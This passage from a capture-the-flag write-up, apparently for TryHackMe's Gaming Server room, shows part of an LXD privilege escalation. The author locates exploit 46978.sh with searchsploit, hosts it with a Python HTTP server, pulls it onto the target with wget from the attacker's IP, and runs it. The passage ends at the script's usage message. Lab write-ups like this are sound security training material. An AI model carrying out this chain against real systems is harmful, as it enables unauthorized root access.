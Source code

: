 First thing we search for the [[Exploit]] on [[Searchsploit]] and copy it to our directory :

```
┌──(hax㉿HaxonKali)-[~/THM/CHALLENGES/Easy/Gaming Server]
└─$ searchsploit lxd
----------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                       |  Path
----------------------------------------------------------------------------------------------------- ---------------------------------
Ubuntu 18.04 - 'lxd' Privilege Escalation                                                            | linux/local/46978.sh
----------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results

```

Now we host the [[Python]] server for the download :

```
┌──(hax㉿HaxonKali)-[~/THM/CHALLENGES/Easy/Gaming Server]
└─$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

Now we download the script from our target machine, i will do it in /tmp and make it executable :

```
ohn@exploitable:/tmp$ wget http://10.8.162.183/46978.sh
--2025-07-20 16:52:56--  http://10.8.162.183/46978.sh
Connecting to 10.8.162.183:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 1451 (1.4K) [text/x-sh]
Saving to: ‘46978.sh’

46978.sh                          100%[============================================================>]   1.42K  --.-KB/s    in 0s      

2025-07-20 16:52:57 (3.21 MB/s) - ‘46978.sh’ saved [1451/1451]

john@exploitable:/tmp$ ls
46978.sh
systemd-private-c5e02dbe2a954b53a82db9413be62208-apache2.service-jpdte1
systemd-private-c5e02dbe2a954b53a82db9413be62208-systemd-resolved.service-Zmlwy3
systemd-private-c5e02dbe2a954b53a82db9413be62208-systemd-timesyncd.service-REM6Ji
john@exploitable:/tmp$ chmod +x 46978.sh 

```

Now we try to execute it :

```
john@exploitable:/tmp$ bash 46978.sh 

Usage:
        [-f] Filename (.tar.gz alpine file)
        [-h] Show this help panel

```
